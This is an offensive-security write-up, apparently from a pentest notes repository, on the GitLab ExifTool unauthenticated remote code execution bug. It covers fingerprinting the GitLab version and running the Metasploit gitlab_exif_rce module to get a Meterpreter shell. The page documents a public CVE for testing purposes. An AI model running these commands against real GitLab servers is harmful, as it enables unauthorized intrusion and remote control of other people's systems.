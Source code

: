 # Gitlab - Unauthenticated RCE with exiftool

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

## Requirements

This vulnerability affect the below **Gitlab CE/EE** versions:

- `>=11.9`, `<13.8.8`
- `>=13.9`, `<13.9.6`
- `>=13.10`, `<13.10.3`

## Exploitation

### Step 1: Try to find the version of Gitlab

First of all, before trying to exploit the RCE, we need to try to find the version of Gitlab. 

- **Authenticated**: The version can often be found on `/help` endpoint when authenticated with a user account.
    
    ![](imgs/gitlab_version.png)


- **Unauthenticated**: On recent versions the `What’s new` feature on `/help` endpoint show an approximative version without authentication. Found this menu clinking on `?` button on top right.
    
    ![](imgs/gitlab_approximative_version.png)
    
### Step 2.1: Exploit using metasploit
    
This RCE technique is available in the `multi/http/gitlab_exif_rce` module in metasploit.
    
```bash
use multi/http/gitlab_exif_rce
set RHOSTS 192.168.1.10
set LHOST wlan0
run
```

### Step 2.2: Exploit without Metasploit

TODO

### Enjoy your shell

After running the metasploit module, if the remote gitlab is vulnerable you will have an meterpreter session.

![](imgs/metasploit_gitlab_rce.png)


## References

 - [Action needed by self-managed customers in response to CVE-2021-22205](https://about.gitlab.com/blog/2021/11/04/action-needed-in-response-to-cve2021-22205/)  
 - [Hackerone report #1154542](https://hackerone.com/reports/1154542)  
 - [Gitlab issue #327121](https://gitlab.com/gitlab-org/gitlab/-/issues/327121)  